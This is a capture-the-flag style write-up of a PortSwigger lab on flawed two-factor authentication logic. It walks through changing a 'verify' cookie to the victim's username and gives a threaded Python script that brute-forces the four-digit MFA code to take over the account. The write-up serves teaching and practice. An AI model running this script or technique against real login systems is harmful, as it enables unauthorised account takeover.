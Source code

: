 # 2FA broken logic

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic), you'll learn: 2FA broken logic! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

You also have access to the email server to receive your 2FA verification code.

## Exploitation

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222023039.png)

**Let's try to login as user `wiener`, and intercept all requests via Burp Suite:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222023628.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222023649.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222023712.png)

When we clicked the `Log in` button, **it'll send a POST request to `/login`, with parameter `username` and `password`.**

**After the POST request is sent, the application will set a new cookie for us: `verify=<username>`.**

Hmm... **What if I change the `verify` cookie to another users**? Like `carlos`.

**Let's go to the `Email client` to get the security code:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222023956.png)

- Security code: `0267`

**Then send the security code and intercept the request via Burp Suite:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222024038.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222024047.png)

**Let's change the `verify` value to `carlos`, and forward the request!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222024111.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222024139.png)

Hmm... `Incorrect security code`.

Looks like we need to **brute force the security code**!

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(url, cookie, number):
    loginData = {
        'mfa-code': number
    }

    # Display current number and use \r to clear previous line
    print(f'[*] Trying number: {number}', end='\r')

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Incorrect security code' not in loginRequestText:
        print(f'[+] Found security code: {number}')

def main():
    url = 'https://0ab100fb0332774dc02726db00f20057.web-security-academy.net/login2'
    cookie = {
        'session': '2cK9ym9I9zf0e0p9IECgOqDGUoJfnYT4',
        'verify': 'carlos'
    }

    # Generate number 0000 to 9999 into a list
    listNumbers = [f'{i:04d}' for i in range(10000)]
    
    for number in listNumbers:
        thread = Thread(target=sendRequest, args=(url, cookie, number))
        thread.start()

        # You can adjust how fast of each connection. 0.05s is recommended.
        sleep(0.05)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_2fa_code.py
[+] Found security code: 1814
```

- Found user `carlos` security code: 1814

**Let's login as `carlos`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222031030.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222031040.png)

I'm user `carlos`!

# What we've learned:

1. 2FA broken logic